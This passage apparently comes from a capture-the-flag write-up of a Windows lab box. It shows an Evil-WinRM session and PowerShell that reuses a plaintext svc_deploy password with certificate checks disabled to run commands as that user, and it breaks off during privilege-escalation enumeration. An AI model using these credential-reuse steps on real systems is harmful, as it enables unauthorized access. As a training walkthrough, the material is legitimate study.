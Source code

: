 `invoke-command` is used to run "commands on local and remote computers" according to the [PowerShell documentation](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7.2). So, we are provided with a command to run commands as the `svc_deploy` user.

We check which users are on the machine:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd C:\Users\
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX
```

Sure enough there is a `svc_deploy` user.

Let's rerun these commands to make sure they work:

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
```

The above commands output `timelapse\svc_deploy`. So, we can execute commands as the `svc_deploy` user.

## Privilege Escalation

We can see what groups `svc_deploy` belongs to by running `net user svc_deploy` with `invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}`:

```
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/24/2022 7:40:40 PM

Logon hours allowed          All
```